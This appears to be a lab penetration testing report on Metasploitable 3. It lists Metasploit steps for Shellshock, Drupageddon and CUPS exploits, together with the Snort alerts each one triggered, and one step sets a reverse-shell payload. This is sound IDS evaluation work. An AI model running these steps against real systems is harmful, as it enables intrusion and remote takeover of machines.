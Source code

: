 # Penetration Testing Report on Metasploitable 3 (Linux)

## Introduction

This report details the penetration testing performed on the [Metasploitable 3 (Linux)](https://github.com/rapid7/metasploitable3) operating system using [Metasploit](https://www.metasploit.com/). Five different attacks were carried out, with three being identifiable by the [Snort](https://www.snort.org/) Intrusion Detection System (IDS) and two going undetected. The report provides a brief description of each attack, including the targeted component, execution method, and Snort output for detected attacks. Additionally, it includes an essay on the benefits and shortcomings of using intrusion detection systems.

## IDENTIFIED ATTACK 1: Apache HTTP Server RCE

### Description

**Component Targeted:** Shellshock Bash Vulnerability / Apache web server with CGI scripts

**Execution Method:** This attack exploits the Shellshock vulnerability, a flaw in how the Bash shell handles external environment variables. It targets CGI scripts in the Apache web server by setting the HTTP_USER_AGENT environment variable to a malicious function definition. [CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)

**Steps in Metasploit:**
1. Select the exploit: `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
2. Set the target IP: `set RHOST <target_ip>`
3. Set the target URI: `set TARGETURI /cgi-bin/hello_world.sh`
4. Execute the attack: `run`

**Snort Output:**
```
[**] [1:2025869:2] ET WEB_SPECIFIC_APPS ELF file magic plain Inbound Web Servers Likely Command Execution 12 [**] [Classification: Attempted User Privilege Gain]          [Priority: 1] {TCP} 172.28.128.1:56642 -> 172.28.128.3:80      
[**] [1:1336:5] WEB-ATTACKS chmod command attempt [**]                                                            [Classification: Web Application Attack]                 [Priority: 1] {TCP} 172.28.128.1:56642 -> 172.28.128.3:80                                                                            
[**] [1:100000122:1] COMMUNITY WEB-MISC mod_jrun overflow attempt [**]                                            [Classification: Web Application Attack]                 [Priority: 1] {TCP} 172.28.128.1:56642 -> 172.28.128.3:80                                                            
[**] [1:2022028:1] ET WEB_SERVER Possible CVE-2014-6271 Attempt [**]                                              [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 172.28.128.1:56643 -> 172.28.128.3:80 
```


## IDENTIFIED ATTACK 2: Drupal Drupageddon

### Description

**Component Targeted:** Drupal Web Application

**Execution Method:** This attack exploits a remote code execution vulnerability in Drupal (versions 7.0 to 7.31), commonly referred to as "Drupageddon". The vulnerability allows an attacker to execute arbitrary PHP code on the web server by exploiting an SQL injection vulnerability in the Drupal HTTP Parameter Key/Value handling. [CVE-2014-3704](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3704)

**Steps in Metasploit:**
1. Select the exploit: `use exploit/multi/http/drupal_drupageddon`
2. Set the target IP: `set RHOST <target_ip>`
3. Set the target URI: `set TARGETURI /drupal/`
4. Execute the attack: `run`

**Snort Output:**
```
[**] [1:2012887:2] ET POLICY HTTP POST contains pass= in cleartext [**] [Classification: Potential Corporate Privacy Violation] [Priority: 1] {TCP} 172.28.128.1:58460 -> 172.28.128.3:80 
```



## IDENTIFIED ATTACK 3: CUPS Filter Bash Environment Variable Code Injection (Shellshock)

### Description

**Component Targeted:** CUPS (Common UNIX Printing System)

**Execution Method:** This attack exploits a remote code execution vulnerability in the CUPS printing system by leveraging the Shellshock vulnerability in Bash. The vulnerability allows an attacker to inject and execute arbitrary code via manipulated environment variables passed to the CUPS filters.

**Preparation:** Before performing the attack, ensure the `vagrant` user is added to the `lpadmin` group on the Metasploitable box, as the exploit requires elevated privileges to execute properly.
```
usermod -a -G lpadmin vagrant
```

**Steps in Metasploit:**
1. Select the exploit: `use exploit/multi/http/cups_bash_env_exec`
2. Set the target IP: `set RHOST <target_ip>`
3. Set the CUPS username: `set HttpUsername vagrant`
4. Set the CUPS password: `set HttpPassword vagrant`
5. Set the payload to use a reverse TCP connection: `set PAYLOAD cmd/unix/reverse_ruby`
6. Configure the local host IP for the payload: `set LHOST  <listen_ip>`
7. Execute the attack: `run`

**Snort Output:**
```
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58859 -> 172.28.128.3:631                                                                
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58862 -> 172.28.128.3:631                                                                
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58864 -> 172.28.128.3:631                                                                
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58864 -> 172.28.128.3:631 
```
